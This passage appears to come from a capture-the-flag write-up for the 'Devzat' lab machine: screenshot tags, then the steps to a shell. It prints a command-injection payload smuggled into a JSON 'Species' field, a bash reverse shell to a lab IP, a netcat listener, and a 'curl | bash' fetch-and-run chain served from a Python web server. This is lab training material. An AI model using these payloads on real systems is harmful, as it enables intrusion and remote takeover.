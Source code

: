 <br/><br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I try to get a **Reverse Shell**, using the **[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** commands, they do not work. Then I will create a malicious `index.html` file, with bash code to get it, I just have to create a local server with **Python** and then from the victim machine access my server and interpret the content with `bash`, I get access to the machine. I make a console treatment to be able to deploy me with greater comfort and I corroborate the **Codename**, which agrees with what I obtained with **Launchpad**. I also see that there is a network interface corresponding to Docker.

```bash
nc -nlvp 443
```

```java
{"Name":"oldb", "Species":"Cat;bash -i >&/dev/tcp/10.10.14.15/443 0>&1"}
```

```bash
nvim index.html
python3 -m http.server 80
nc -nlvp 443
```

> **index.html**

```bash
#!/bin/bash

bash -i >&/dev/tcp/10.10.14.15/443 0>&1
```

```java
{"Name":"oldb", "Species":"Cat;curl 10.10.14.15"}
{"Name":"oldb", "Species":"Cat;curl 10.10.14.15|bash"}
```
